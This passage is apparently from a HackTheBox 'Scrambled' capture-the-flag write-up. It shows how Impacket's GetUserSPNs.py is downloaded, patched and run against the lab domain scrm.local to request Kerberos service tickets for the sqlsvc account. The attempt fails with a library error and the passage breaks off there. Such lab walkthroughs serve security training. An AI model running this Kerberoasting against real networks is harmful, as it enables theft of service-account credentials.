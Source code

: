 ```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py
--2022-07-08 18:18:54--  https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24390 (24K) [text/plain]
Saving to: ‘GetUserSPNs.py’
GetUserSPNs.py            100%[===================================>]  23.82K  --.-KB/s    in 0.008s  
2022-07-08 18:18:54 (2.96 MB/s) - ‘GetUserSPNs.py’ saved [24390/24390]
```

Edit the line as described:

```python
def run(self):
        if self.__usersFile:
            self.request_users_file_TGSs()
            return

        if self.__doKerberos:
           target = self.__kdcHost
           #target = self.getMachineName()  <-- old line 260 code that we're no longer running
        else:
            if self.__kdcHost is not None and self.__targetDomain == self.__domain:
                target = self.__kdcHost
            else:
                target = self.__targetDomain
```

Now run that version of the script:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# python3 GetUserSPNs.py -dc-ip dc1.scrm.local scrm.local/ksimpson -request -k -no-pass
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 16:32:02.351452  2022-07-10 20:11:44.221570             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 16:32:02.351452  2022-07-10 20:11:44.221570             

[-] type object 'CCache' has no attribute 'parseFile'
```

This error took more searching, eventually finding [this](https://github.com/SecureAuthCorp/impacket/issues/1328) issue which tells us the version of Impacket that is installed on Kali is out of date. So we need to update that first:
